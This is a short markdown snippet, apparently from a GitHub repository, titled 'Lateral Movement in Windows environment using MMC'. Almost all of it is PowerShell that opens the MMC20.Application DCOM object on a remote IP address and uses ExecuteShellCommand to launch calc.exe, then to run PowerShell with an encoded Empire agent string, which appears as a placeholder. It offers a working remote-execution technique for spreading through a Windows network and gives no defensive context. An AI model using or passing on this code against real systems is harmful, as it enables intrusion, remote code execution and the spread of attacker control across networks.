 
# Lateral Movement in Windows environment using MMC


    "
     $com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","IPAddress"))
     $com.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\calc.exe",$null,$null,7)
     $com.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe",$null,"-enc DFDFSFSFSFSFSFSFSDFSFSF < Empire encoded string > ","7")
    "
